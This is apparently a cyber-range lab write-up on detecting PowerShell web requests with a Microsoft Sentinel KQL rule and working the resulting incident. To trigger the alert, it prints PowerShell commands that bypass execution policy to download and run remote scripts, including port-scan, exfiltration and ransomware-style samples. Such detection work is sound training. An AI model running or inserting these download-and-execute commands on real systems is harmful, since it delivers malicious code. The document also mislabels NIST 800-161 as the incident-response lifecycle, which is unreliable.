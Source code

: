 
# Detecting Suspicious PowerShell Web Requests in Microsoft Sentinel

## Explanation
Sometimes when a bad actor has access to a system, they will attempt to download malicious payloads or tools directly from the internet to expand their control or establish persistence. This is often achieved using legitimate system utilities like PowerShell to blend in with normal activity. By leveraging commands such as `Invoke-WebRequest`, they can download files or scripts from an external server and immediately execute them, bypassing traditional defenses or detection mechanisms. 

This tactic is a hallmark of post-exploitation activity, enabling attackers to deploy malware, exfiltrate data, or establish communication channels with a command-and-control (C2) server. Detecting this behavior is critical to identifying and disrupting an ongoing attack.

When processes are executed on the local VM, logs will be forwarded to Microsoft Defender for Endpoint under the `DeviceProcessEvents` table. These logs are then sent to the Log Analytics Workspace used by Microsoft Sentinel, our SIEM. Within Sentinel, we will define an alert to trigger when PowerShell is used to download a remote file from the internet.

---

## Part 1: Create Alert Rule (PowerShell Suspicious Web Request)
I designed a Sentinel Scheduled Query Rule within Log Analytics to detect when PowerShell is used to download content using `Invoke-WebRequest`. Before creating the alert rule, I ensured the appropriate logs were available.

### KQL Query
```kql
let TargetHostname = "windows-target-1"; // Replace with the name of your VM as it shows up in the logs
DeviceProcessEvents
| where DeviceName == TargetHostname // Comment this line out for MORE results
| where FileName == "powershell.exe"
| where InitiatingProcessCommandLine contains "Invoke-WebRequest"
| order by TimeGenerated
```

Once the query was validated, I created the Scheduled Query Rule in:
- **Sentinel → Analytics → Scheduled Query Rule**

### Analytics Rule Settings:
- **Name:** PowerShell Suspicious Web Request
- **Description:** Detects when PowerShell is used to download files from the internet
- ✅ Enable the Rule
- **MITRE ATT&CK Framework Categories:** Use ChatGPT to map appropriate categories
- **Run query every:** 4 hours
- **Lookup data for the last:** 24 hours
- **Stop running query after alert is generated:** Yes
- **Entity Mappings:**
  - **Account:** Identifier → Name, Value → AccountName  
  - **Host:** Identifier → HostName, Value → DeviceName  
  - **Process:** Identifier → CommandLine, Value → ProcessCommandLine  
- ✅ Automatically create an Incident if the rule is triggered
- **Group all alerts into a single Incident per 24 hours**
- **Stop running query after alert is generated (24 hours)**

---

## Part 2: Trigger Alert to Create Incident
I ensured that my VM was onboarded to MDE and had been running for several hours. If logs were missing, I manually executed the following commands on my VM to simulate malicious behavior and generate logs:

```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1' -OutFile 'C:\programdata\eicar.ps1';
powershell.exe -ExecutionPolicy Bypass -File 'C:\programdata\eicar.ps1';
```

---

## Work Incident
Following the **NIST 800-161: Incident Response Lifecycle**, I worked through the incident to completion.

### **Preparation**
- Ensured roles, responsibilities, and procedures were documented.
- Verified that necessary tools, systems, and training were in place.

### **Detection and Analysis**

Upon investigating the triggered incident “Jayda - PwerShell Suspicious Web Request” it was discovered that the following PowerShell were run on machine: windows-target-1

| Target System      | Command Executed |
|--------------------|----------------------------------------------------------------------------------------------------------------------------------|
| windows-target-1  | `powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1 -OutFile C:\programdata\portscan.ps1` |
| windows-target-1  | `powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1` |
| windows-target-1  | `powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1 -OutFile C:\programdata\eicar.ps1` |
| windows-target-1  | `powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1` |


#### **Findings:**
- The suspicious web request incident was triggered on 1 device by 1 user, but downloaded 4 different scripts with 4 different commands

| Script Name         | Description |
|---------------------|-------------|
| **Portscan.ps1**   | Scans a specified range of IP addresses and common ports to identify open and closed ports. Logs the results to a file. |
| **Exfiltratedata.ps1** | Generates fake employee data, compresses it using 7-Zip, and attempts to upload it to Azure Blob Storage. Also maintains a backup of the generated files. |
| **Eicar.ps1**      | Creates an EICAR test file to simulate a potential malware detection scenario for testing antivirus responses. |


# Investigation Summary

After investigating with Defender for Endpoint, it was determined that the downloaded scripts actually did run. See the following query:

```kusto
let TargetHostname = "windows-target-1"; // Replace with the name of your VM as it shows up in the logs
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]); // Add the name of the scripts that were downloaded
DeviceProcessEvents
| where DeviceName == TargetHostname // Comment this line out for MORE results
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
```


To verify whether the scripts were executed, I ran:

```kql
let TargetHostname = "windows-target-1";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
```

---

### **Containment, Eradication, and Recovery**
- Isolated the affected system using Microsoft Defender for Endpoint.
- Performed an antimalware scan in MDE.
- If any scripts were executed, I analyzed their content.
- Removed the threat and restored the system to normal.

---

## **Post-Incident Activities**
- Documented findings and lessons learned.
- Updated policies to prevent recurrence, such as restricting PowerShell usage.
- Closed out the incident within Sentinel as a **True Positive**.

### **Closure**
- Reviewed and confirmed incident resolution.
- Finalized reporting and closed the case.

---

## **Conclusion**
By implementing this alert rule and working through the incident, I successfully detected and responded to a potential security threat using Microsoft Sentinel and Microsoft Defender for Endpoint. This process reinforced best practices for threat hunting and security operations while highlighting how attackers can leverage legitimate tools like PowerShell for malicious activity. Moving forward, refining detection rules and implementing additional controls will further enhance security posture and threat mitigation efforts.
